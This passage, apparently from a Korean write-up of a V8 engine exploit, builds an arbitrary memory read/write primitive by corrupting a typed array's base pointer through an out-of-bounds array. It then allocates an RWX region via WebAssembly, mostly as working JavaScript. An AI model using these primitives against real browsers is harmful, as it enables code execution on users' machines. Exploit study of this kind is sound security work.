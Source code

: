 ![image](https://github.com/user-attachments/assets/7b0c1d6d-9316-43f4-ab50-7c7be8c61c32)

OOB를 이용하여 `base_pointer`를 조작하면 임의의 주소에 접근하여 값을 읽거나 쓸 수 있다.

```js
// arbitrary address read/write
function aarw(addr, value = null) {
    oob_arr[31] = itof(addr - 0xfn); // base_pointer of |typed_arr|
    if (value == null) {
        // if |value| is null, read 8 bytes from |addr|
        return typed_arr[0];
    } else {
        // if |value| isn't null, write |value| to |addr|
        typed_arr[0] = value;
    }
}
```

```js
// aar test
let tmp_obj_addr = addrof(tmp_obj);
console.log(`[+] *${hex(tmp_obj_addr - 1n)} == ${hex(aarw(tmp_obj_addr - 1n))}`);
```

![image](https://github.com/user-attachments/assets/d86340d3-9015-43e5-84e3-b669f477b50b)

![image](https://github.com/user-attachments/assets/ecf74c13-950c-42e6-84a2-7c1f06648a6f)

```js
// aaw test
aarw(tmp_obj_addr - 1n, 0x4141414141414141n);
console.log(`[+] *${hex(tmp_obj_addr - 1n)} == ${hex(aarw(tmp_obj_addr - 1n))}`);
```

![image](https://github.com/user-attachments/assets/1b197dbd-2c3e-4ad0-9e47-1bae645ce860)

![image](https://github.com/user-attachments/assets/5a1648a1-7dab-4688-8ce9-b942702dac1a)

### Allocate RWX region

`WebAssembly.Instance`를 생성하면 Wasm module의 exported function을 실행하기 위해 RWX permission을 가진 메모리 영역이 할당된다.

```bash
echo "(module (func \$main) (export \"main\" (func \$main)))" > pwn.wat
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
```

![image](https://github.com/user-attachments/assets/d2d9b093-9a70-47a8-be3d-63cfe1de95df)

```js
// allocate rwx region
let wasm_code = new Uint8Array([0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x04, 0x01, 0x60, 0x00, 0x00, 0x03, 0x02, 0x01, 0x00, 0x07, 0x08, 0x01, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00, 0x00, 0x0a, 0x04, 0x01, 0x02, 0x00, 0x0b]);
let wasm_module = new WebAssembly.Module(wasm_code);
let wasm_instance = new WebAssembly.Instance(wasm_module);

% DebugPrint(wasm_instance);
```
